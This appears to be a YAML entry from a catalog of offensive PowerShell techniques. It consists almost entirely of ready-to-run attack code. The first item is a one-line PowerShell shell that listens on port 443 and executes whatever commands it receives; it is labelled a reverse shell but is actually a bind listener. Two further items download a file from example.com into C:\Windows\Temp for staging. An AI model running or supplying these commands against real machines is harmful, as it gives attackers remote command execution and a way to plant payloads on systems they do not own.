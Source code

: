 ```yaml
---
functions:
  reverse-shell:
    - description: Powershell reverse shell [Without obfuscation or encryption]
      code: |
       powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
  file-download:
    - description: Download files using powershell works on any version
      code: |
        (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")     
    - description: Download files using powershell v 4.0 or 5.0 
      code: |
        Invoke-WebRequest "https://example.com/archive.zip" -OutFile "C:\Windows\Temp\archive.zip"

---
```

